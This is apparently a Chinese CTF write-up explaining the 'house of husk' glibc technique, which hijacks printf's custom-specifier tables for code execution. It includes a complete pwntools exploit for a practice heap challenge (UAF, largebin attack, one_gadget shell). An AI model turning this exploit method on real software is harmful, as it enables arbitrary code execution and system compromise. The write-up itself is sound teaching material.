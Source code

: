 堆题使用_exit()退出程序，且存在printf并且使用了格式化字符，只能任意写堆地址。使用house of husk，通过一次任意地址写（任何非零值都可以），一次任意地址写可控地址，即可任意执行。

printf函数的一个功能是，可以允许用户自定义格式化字符所使用的函数。
如果用户使用__register_printf_specifier函数自定义某格式化字符对应的函数，就会在__printf_arginfo_table处calloc一块内存用于存放用户自定义的格式化字符函数表，表中每一个函数指针对应每一个ascii字符（格式化字符）所使用的自定义函数。
同时将__printf_function_table置为__printf_arginfo_table + UCHAR_MAX + 1

在调用printf时，会检测__printf_function_table是否为零。
若非零则代表用户自定义了格式化字符函数。
此时，程序会转而调用__printf_arginfo_table对应偏移处的函数。

于是利用思路就很明确了。
一次任意写将__printf_function_table置为任意非零值。
一次任意写将__printf_arginfo_table写为可控地址。
可控地址对应偏移处写上目标执行地址（其实正常堆题把chunk填满就行了）。
随后调用带格式化参数的printf，即可任意地址执行。

例题：

一个uaf，一次edit，一次show，限制chunk 0x500~0x540，一次backdoor任意写一字符。
放进unsortedbin两个chunk，show uaf_chunk拿libc和heap。
largebin attack写在__printf_arginfo_table上。
backdoor写在__printf_function_table上。
输入非法字符退出，调用printf，getshell。

exp：
```python
from pwn import*
p = process("./pwn")
libc = ELF("./libc-2.31.so")
def add(siz,cot):
    p.sendlineafter("choice: \n","1")
    p.sendlineafter("name: ","Seg_Tree")
    p.sendlineafter("desciption: ",str(siz))
    p.sendlineafter("desciption: ",cot)

def fre(idx):
    p.sendlineafter("choice: \n","2")
    p.sendlineafter("people: ",str(idx))

def edi(idx,cot):
    p.sendlineafter("choice: \n","3")
    p.sendlineafter("people: ",str(idx))
    p.sendlineafter("people: ","Seg_Tree")
    p.sendlineafter("desciption: ",cot)

def sho(idx):
    p.sendlineafter("choice: \n","4")
    p.sendlineafter("people: ",str(idx))

def backdoor(addr,char):
    p.sendlineafter("choice: \n","255")
    p.sendlineafter("IU?\n","y")
    p.sendafter("reward!\n",addr)
    p.sendline(char)

add(0x520,"AAAAAAAA")           #0
add(0x510,"BBBBBBBB")           #1
add(0x500,"CCCCCCCC")           #2
add(0x510,"DDDDDDDD")           #3
fre(0)
fre(2)
sho(0)
unsortedbin = u64(p.recv(8))
libc_base = unsortedbin - 0x1Ecbe0
largebin = libc_base + 0x1ed010
print(hex(libc_base))
heap2 = u64(p.recv(8))
heap0 = heap2 - 0xa50
print(hex(heap0))
system = libc_base + libc.symbols["system"]
__printf_function_table = libc_base + 0x1F1318
__printf_arginfo_table = libc_base + 0x1ED7B0
ogg = libc_base + 0xe3afe
ogg = libc_base + 0xe3b01
print(hex(__printf_arginfo_table))
backdoor(p64(__printf_function_table),'a')

fake_table = p64(ogg)*0x80
payload = p64(largebin) + p64(largebin) + p64(heap0) + p64(__printf_arginfo_table - 0x20)

add(0x500,fake_table)           #4/former 2
fre(2)
edi(0,payload)
add(0x530,"put the unsorted chunk into large bin")          ##4
# fre(4)
# gdb.attach(p,"b*$rebase(0x1d98)")
p.sendlineafter("choice: \n","H4cked_6y_Seg_Tree")
p.interactive()

```
